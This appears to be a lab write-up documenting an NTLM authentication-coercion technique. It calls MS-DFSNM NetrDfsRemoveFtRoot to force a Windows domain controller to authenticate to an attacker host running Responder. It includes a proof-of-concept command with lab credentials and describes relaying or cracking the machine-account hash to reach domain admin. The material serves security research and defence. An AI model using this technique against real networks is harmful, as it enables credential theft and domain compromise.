 # MS-DFSNM - Remote call to NetrDfsRemoveFtRoot (opnum 11)

## Summary

 - **Protocol**: [[MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979)

 - **Protocol UUID**: 4fc742e0-4a10-11cf-8273-00aa004ae673

 - **Protocol version**: 3.0

 - **SMB Named pipe**: ``

 - **Function name**: [`NetrDfsRemoveFtRoot`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/a7cdf205-0348-4d51-9175-2427d8782828)

 - **Function operation number**: `11`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-DFSNM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) protocol (with uuid `4fc742e0-4a10-11cf-8273-00aa004ae673` and version `3.0`) in order to perform remote procedure calls to functions in the [`MS-DFSNM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) and allows to call RPC functions of this protocol. We will then call the remote [`NetrDfsRemoveFtRoot`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/a7cdf205-0348-4d51-9175-2427d8782828) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrDfsRemoveFtRoot('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NET_API_STATUS NetrDfsRemoveFtRoot(
   [in, string] WCHAR* ServerName,
   [in, string] WCHAR* DcName,
   [in, string] WCHAR* RootShare,
   [in, string] WCHAR* FtDfsName,
   [in] DWORD ApiFlags,
   [in, out, unique] DFSM_ROOT_LIST** ppRootList
 );
```

## References

 - Documentation of protocol [MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979

 - Documentation of function `NetrDfsRemoveFtRoot`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/a7cdf205-0348-4d51-9175-2427d8782828